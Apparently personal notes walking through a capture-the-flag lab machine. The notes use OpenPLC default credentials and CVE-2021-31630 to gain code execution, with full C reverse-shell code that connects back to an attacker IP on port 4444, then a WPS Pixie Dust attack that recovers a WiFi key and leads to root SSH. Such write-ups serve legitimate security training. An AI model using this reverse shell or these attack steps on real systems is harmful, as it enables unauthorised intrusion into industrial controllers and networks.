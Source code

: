## Season 4 | Linux Machine | Medium

## Nmap 

		PORT     STATE SERVICE
		22/tcp   open  ssh
		8080/tcp open  http-proxy
		
## foothold

port 8080 appears to be an openplc webserver 

dirbusting showed nothing interesting
code source nothing interesting

--> default credentials : openplc , openplc 
RCE by injection program compiled in c - cve 2021-31630

## Revshell 
	On /hardware :

				#include <stdio.h>
				#include <sys/socket.h>
				#include <sys/types.h>
				#include <stdlib.h>
				#include <unistd.h>
				#include <netinet/in.h>
				#include <arpa/inet.h>

init function->
			    int port = 4444;
			    struct sockaddr_in revsockaddr;

			    int sockt = socket(AF_INET, SOCK_STREAM, 0);
			    revsockaddr.sin_family = AF_INET;       
			    revsockaddr.sin_port = htons(port);
			    revsockaddr.sin_addr.s_addr = inet_addr("10.10.14.22");

			    connect(sockt, (struct sockaddr *) &revsockaddr, 
			    sizeof(revsockaddr));
			    dup2(sockt, 0);
			    dup2(sockt, 1);
			    dup2(sockt, 2);

			    char * const argv[] = {"/bin/bash", NULL};
			    execvp("/bin/bash", argv);
			    
## Wifi pentesting hacktricks 

Pixie dust : oneshot.py reveals ssid and more

		root@attica01:/tmp# python3 ./oneshot.py -i wlan0 
		Networks list:
		#    BSSID              ESSID                     Sec.     PWR  WSC device name             WSC model
		1)   02:00:00:00:01:00  plcrouter                 WPA2     -30  



## Output of oneshot.py conf file :

			ctrl_interface=/tmp/tmpdqiiy53e
			ctrl_interface_group=root
			update_config=1

			network={
				ssid="plcrouter"
				psk="NoWWEDoKnowWhaTisReal123!"
				proto=RSN
				key_mgmt=WPA-PSK
				pairwise=CCMP-256 GCMP-256 CCMP GCMP
				group=CCMP-256 GCMP-256 CCMP GCMP TKIP
				auth_alg=OPEN
				mesh_fwding=1
			}


## Connect to wifi network : 

Follow this line by line  https://wiki.somlabs.com/index.php/Connecting_to_WiFi_network_using_systemd_and_wpa-supplicant



wpa-cli:

	> status
	bssid=02:00:00:00:01:00
	freq=2412
	ssid=plcrouter
	id=0
	mode=station
	pairwise_cipher=CCMP
	group_cipher=CCMP
	key_mgmt=WPA2-PSK
	wpa_state=COMPLETED
	ip_address=192.168.1.84
	p2p_device_address=42:00:00:00:02:00
	address=02:00:00:00:02:00
	uuid=a134bcd4-edf6-548b-87e5-49d3aedf9b60

ifconfig shows ip adress / netstat -nr shows 192.168.1.1

ssh root@192.168.1.1 



